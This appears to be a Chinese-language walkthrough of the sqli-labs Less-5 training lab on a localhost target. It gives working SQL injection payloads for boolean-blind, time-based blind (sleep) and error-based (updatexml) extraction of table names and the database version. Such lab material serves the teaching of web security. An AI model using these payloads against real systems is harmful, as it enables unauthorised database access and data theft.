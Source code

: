 

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and'1'='1
```



![](images/70AC56255F414DBF88FE57B86D995A0Aclipboard.png)



```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and'1'='2
```



![](images/67D4A60B5F4944398D652013C3D39362clipboard.png)



1=1和1=2返回的页面不同所以判断存在sql注入，但是返回的内容只有两种，所以可以利用盲注。



1.布尔盲注

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1' and ascii(substr((
select table_name from information_schema.tables where 
table_schema=database()  limit 0,1),1,1))=101--+
```



通过返回的页面不同，所以判断表名第一个字段



2.时间盲注

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and if
((substr((select group_concat(table_name) from information_schema.tables 
limit 0,1),1,1)=101),sleep(5),0)--+
```

当返回响应时间超过5秒时 ，所匹配的字符就为表名的第一个字符。



3.这里还可以使用报错注入。

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and 
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)--+
```



![](images/481B0007D70845F48D7F6A6CCA0F2BACclipboard.png)

